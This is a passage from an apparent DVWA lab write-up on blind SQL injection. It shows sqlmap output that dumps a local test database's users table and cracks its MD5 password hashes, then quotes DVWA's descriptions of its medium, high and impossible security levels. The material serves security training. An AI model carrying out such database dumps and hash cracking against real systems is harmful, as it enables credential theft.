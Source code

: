     [10:42:53] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
    [10:42:53] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
    [10:42:54] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
    [10:42:55] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
    Database: dvwa
    Table: users
    [5 entries]
    +---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
    | user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
    +---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
    | 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2023-12-12 14:29:30 | 0            |
    | 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2023-12-12 14:29:30 | 0            |
    | 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2023-12-12 14:29:30 | 0            |
    | 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2023-12-12 14:29:30 | 0            |
    | 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2023-12-12 14:29:30 | 0            |
    +---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+

    [10:42:56] [INFO] table 'dvwa.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/127.0.0.1/dump/dvwa/users.csv'
    [10:42:56] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/127.0.0.1'

    [*] ending @ 10:42:56 /2023-12-14/
    ```

    Not only `sqlmap` was able to enumerate the table and extract its content, but also cracked the hashes in just 5 seconds!

## Security: Medium
> _The medium level uses a form of SQL injection protection, with the function of [`mysql_real_escape_string()`](https://www.php.net/manual/en/function.mysql-real-escape-string.php). However due to the SQL query not having quotes around the parameter, this will not fully protect the query from being altered. The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/sqli_blind/sqli_medium_source.php))._

## Security: High
> _This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/sqli_blind/sqli_blind_high_source.php))._

## Security: Impossible
> _The queries are now parameterized queries (rather than being dynamic). This means the query has been defined by the developer, and has distinguish which sections are code, and the rest is data ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/sqli_blind/sqli_blind_impossible_source_code.php))._
